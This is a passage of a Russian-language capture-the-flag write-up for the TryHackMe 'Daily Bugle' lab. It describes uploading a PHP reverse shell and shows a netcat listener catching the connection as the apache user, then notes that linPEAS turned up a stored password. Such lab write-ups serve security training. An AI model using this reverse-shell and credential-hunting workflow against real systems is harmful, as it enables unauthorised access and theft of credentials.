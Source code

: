 Загружаю php reverse shell  
![reverse](screenshots/02.reverse.png)

И получаю доступ
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.21.104.16] from (UNKNOWN) [10.10.154.91] 37978
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 00:28:30 up  2:08,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ pwd
/
pwd
sh-4.2$ whoami
whoami
apache
```

## ⚙️ Привилегии

linPEAS выдал пароль в файлах  
![pass](screenshots/03.pass.png)
